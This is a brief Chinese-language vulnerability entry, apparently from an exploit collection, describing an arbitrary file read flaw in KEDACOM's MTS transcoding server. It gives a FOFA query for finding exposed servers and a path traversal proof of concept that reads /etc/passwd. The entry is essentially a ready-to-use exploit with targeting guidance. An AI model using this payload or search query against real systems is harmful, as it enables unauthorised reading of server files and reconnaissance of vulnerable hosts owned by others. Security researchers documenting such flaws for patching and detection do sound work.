

# 科达 MTS转码服务器 任意文件读取漏洞

## 漏洞描述

KEDACOM MTS转码服务器存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

```
MTS转码服务器
```

## FOFA

```
app="MTS转码服务器"
```

## 漏洞复现

登录页面



验证POC

```
/../../../../../../../../etc/passwd
```

